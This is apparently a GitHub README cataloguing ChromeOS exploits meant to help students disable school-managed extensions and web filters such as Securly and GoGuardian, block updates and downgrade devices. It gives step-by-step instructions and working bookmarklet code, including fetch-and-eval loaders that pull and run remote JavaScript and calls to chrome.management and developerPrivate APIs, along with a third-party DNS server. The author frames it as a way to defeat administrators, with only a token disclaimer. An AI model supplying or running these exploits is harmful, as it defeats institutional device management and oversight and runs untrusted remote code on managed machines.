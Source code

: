 # EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destory your computer if used inproperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/3kh0/ext-remover/discussions">here</a>
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of wack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan
<details>
<summary><b> Extension Launcher (Bookmarklet) </summary>
A bookmarklet capable of installing extensions, for those without a allowlist. 

Steps: 
Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a dns)
go to chrome.google.com/webstorex and use the bookmarklet, then put the icon of the extension, the id, and name of it (Doesn't matter just put anything)
press download, and it will work.
**Extra Notes**
- Credit to "Aka, but nice" on discord.
- Dns will be up soon, if bookmarklets are blocked
- This will not work if you have a blocklist this is only for if when you go to the webstore it shows blocked
</details>
<details>
<summary><b>New Point-Blank</b> (Run scripts on extension pages)</summary>
This exploit allows you to run scripts, on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

*Scroll down to preform this exploit!*


<i>Getting started</i>
(Note: if bookmarklets are blocked your screwed.)
  1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> (on your school chromebook of course)
2. Make a bookmark with the code there.
3. Once that is done.
  If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by chrome, reload(you have to actually have securly ofc)
 If you have iBoss go to <a href="https://tinyurl.com/goofboss">here</a>, 
 
 If you have Cisco Umbrella go to <a href="https://tinyurl.com/goofumbrella">here</a>
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a> 
 And if you have GoGuardian(might not work) go to <a href="https://tinyurl.com/goofguardian">here</a>. Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work.
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by me, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>CAUB</b> (Prevent Updates)</summary>
This exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

*Scroll down to preform this exploit!*

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifis that you've connected to in the past.
3. Click the + sign next to the wifi name of each network that you commonly connect your chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox bshelow.
8. Press the "generate onc" button below the textbox.
9. Once you have downloaded the file, go to chrome://network#general
10. Click on the "import onc" button
11. Import the newly downloaded file

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you are on a wifi that you used caub on)
- Be careful not to stay on a wifi for too long without using caub on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!

</details>

<details>
<summary><b>LTBEEF</b> (Disable extensions)</summary>
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.  

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
The original site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>
  
**Installation**  
There are several vesions of this exploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  
    - Compact Cow's UI (Dark)
    ```js
    javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
    ```

    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers"
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    Set every box there to the following ip:  
    ```158.101.114.159``` (Hosted by The Greatest Giant#0110)  
    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. 


Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>  

<details>
<summary><b>LTBEEF inspect</b> (Using inspect to disable extensions)</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on 108.0.5359.75 (Official Build) (64-bit) on the stable channel.

This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

- Open this URL on your chromebook: `chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json` Shortened link: https://tinyurl.com/i-ltbeef
- Open inspect and navigate to the console tab.
- Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.
</details>

<details>
<summary><b>Point Blank</b> (Run code on system pages)</summary>
Point Blank is an exploit that allows you to run bookmarklets on privilaged pages, sutch as the chrome extentions page.  
This exploit was also found by Bypassi, you can read more about how he discovered this exploit <a href="https://blog.bypassi.com/_/point-blank/"></a>
You can either use the prompt or the gui the prompt is below
1. Bookmark this code:
```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```
and <a href="https://extension-installer.glitch.me/old.js">this </a> is the gui
2. Navigate to `chrome://extensions` 
3. Click on a extension that YOU installed from the Chrome Web Store > Details
4. In the URL bar, copy the string of letters and numbers after the `/?id=`
5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet
5. Paste the id of the extension into the prompt or input box seperated by commas.
If you close the tab, the exploit will stop working.

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>

<details>
<summary><b>SH1mmer</b></summary>  
SH1mmer is an exploit devloped by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

[Official Repository](https://github.com/CoolElectronics/sh1mmer)  
[Official Website (INSTRUCTIONS)](https://sh1mmer.me/)  
[Raw Shims Download](https://files.ultimatesrv.com/)  
[Wax4Web Shim Builder](https://build.ultimatesrv.com/)
</details>

<details>
<summary><b>Downgrading</b> (Change versions)</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4gb of storage, some board have small or bigger images, so have a beef usb, I recommend 16gb
2. A personal computer with access to downloading extentions
3. A brain

<i>Setup</i>
1. Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)  
<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">  
2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board
3. Find and download the chrome version you want to your personal computer

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en</a>
2. Open the extention, and click on the settings button in to top right hand corner, click "use local image"
3. Select the recovery image you downloaded from chrome100
4. Plug in the USB you wish to use, and follow the prompts on the screen
5. On your chromebook, press esc+reload+power and follow the prompts
6. On the checking for updates screen, press ctrl+shift+e to skip the "checking for updates" screen
7. Profit

Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>
  
<details>
  <summary><b>Killcurly</b></summary>
Kill extension, by signing out.

1. Visit chrome://settings/signOut the O in Out must be capital.
2. Press the blue button
3. Go to chrome://restart
4. Now visit tinyurl.com/AddSession
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, Youtube, and any Google   service.
6. All extensions should stop working.
7. Note that you have to repeat this every time you restart or sign out.
  
  **Using this, may get your computer taken away if your school finds out.** 
**This was discoverered by zoroark**
Please use this only when you have permisson, I (3kh0) do not condone the use of this exploit for illegal purposes!
</details>


boop
